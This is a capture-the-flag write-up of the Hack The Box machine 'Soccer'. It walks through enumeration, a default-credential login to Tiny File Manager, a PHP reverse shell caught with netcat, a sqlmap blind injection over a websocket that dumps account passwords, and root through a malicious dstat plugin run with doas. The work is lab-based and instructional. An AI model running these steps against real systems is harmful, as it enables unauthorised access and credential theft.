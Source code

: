 # HTB - Soccer

#### Ip: 10.10.11.194
#### Name: Soccer
#### Rating: Easy

----------------------------------------------------------------------

Soccer.png


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.194 -sC -sV 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-03 08:22 CST
Nmap scan report for 10.10.11.194
Host is up (0.073s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Sat, 03 Feb 2024 14:23:12 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Sat, 03 Feb 2024 14:23:12 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

Using Feroxbuster we can do directory scanning and find a `/tiny` directory leading us to a Tiny File Manager service.

soccer_ferox.png

Looking for default credentials we see that admin:admin@123 are default administrator credentials and we can use them to login to the site as admin:

soccer_logged_in.png

Looking around the target I find an upload feature, but am unable to write to the web root which is owned by root. I found I can create a new folder called test via the "New Item" feature, and in that folder I have write access permission to load  php-reverse-shell.php code. 

soccer_dirs.png

After confirming the php shell is loaded:

soccer_php.png

I can set up a netcat listener and click "Open" to trigger my reverse shell to catch a shell back as user www-data:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.60] from (UNKNOWN) [10.10.11.194] 41702
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 15:58:56 up 5 min,  0 users,  load average: 0.16, 0.40, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami 
www-data
$ hostname
soccer
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@soccer:/$ 
```

I find trying to access the user.txt flag in user player's home directory I don't have permissions and will need to escalate privileges:

```
www-data@soccer:/home/player$ cat user.txt
cat: user.txt: Permission denied
```

Loading LinPEAS to the target we see there is a vhost that wasn't found during enumeration:

soccer_vhost.png

Adding this to out /etc/hosts file, we can create an account and login.

soccer_tix.png

We can see in the page source here some JS code that is reaching out to a websocket on port 9091:

soccer_js.png

Full transparency: I got stuck here for HOURS, and the following SQLMap commands were shamelessly lifted from 0xdf's writeup of the box found at: https://0xdf.gitlab.io/2023/06/10/htb-soccer.html. Thanks 0xdf!

Apparently this is vulnerable to a blind SQL injection, and we can use SQLMap to interact with the web socket and extract data from the DB.

To enumerate the database We can run:
```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
```

Which gives us the databases:
```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Because soccer_db is the only non default DB, lets start there, by now enumerating tables:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```

Appears to be only one table:
```
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

Finally, we can dump the contents of the accounts table:
```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```

Nice, SQLMap dropped user player's password for us:

soccer_pw.png

We can use this to SSH into the machine:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ ssh player@10.10.11.194      
The authenticity of host '10.10.11.194 (10.10.11.194)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.194' (ED25519) to the list of known hosts.
player@10.10.11.194's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
```

And grab the user.txt flag:

soccer_user.png

### Privilege Escalation

Loading LinPEAS onto the target we see that `doas` as the SUID bit set.

soccer_doas.png

Also of interest we find that /usr/local/share/dstat is writable:

soccer_lin2.png

If we look at the doas.conf file we see we are permitted to run dstat with doas, as you would sudo.

```
player@soccer:/tmp$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Looking at GTFObins.com, we find the following explanation:
```
dstat allows you to run arbitrary python scripts loaded as “external plugins” if they are located in one of the directories stated in the dstat man page under “FILES”:
```

Lets try it:

```
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_plugin.py

/usr/local/bin/doas /usr/bin/dstat --plugin
```
Nice, that worked. We can now grab the root.txt flag:

soccer_root.png

